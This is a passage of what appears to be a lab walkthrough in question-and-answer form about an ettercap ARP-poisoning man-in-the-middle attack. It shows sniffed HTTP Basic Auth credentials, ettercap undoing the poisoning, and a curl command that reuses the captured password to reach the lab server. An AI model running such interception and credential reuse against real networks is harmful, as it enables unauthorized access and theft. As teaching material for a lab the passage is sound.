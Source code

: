 ```shell
Wed Aug  6 09:22:45 2025 [835776]
TCP  192.168.12.10:37004 --> 192.168.12.20:80 | AP (133)
GET /test.txt HTTP/1.1.
Host: www.server.bob.
Authorization: Basic YWRtaW46czNjcjN0X1A0eno=.
User-Agent: curl/7.68.0.
Accept: */*.
.
HTTP : 192.168.12.20:80 -> USER: admin  PASS: s3cr3t_P4zz  INFO: www.server.bob/test.txt

```
<div align="center">
<br>
</div>

##### Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning?
RE-ARPing the victims

```shell
Terminating ettercap...
Lua cleanup complete!
ARP poisoner deactivated.
RE-ARPing the victims...
Unified sniffing was stopped.
```
<div align="center">
<br>
</div>

##### Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay)
Yay

```shell
admin@eve:~$ curl -u admin:s3cr3t_P4zz http://192.168.12.20/
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="SimpleHTTPAuthServer.py">SimpleHTTPAuthServer.py</a>
<li><a href="test.txt">test.txt</a>
<li><a href="user.txt">user.txt</a>
</ul>
<hr>
</body>
</html>

```
<div align="center">
<br>
</div>
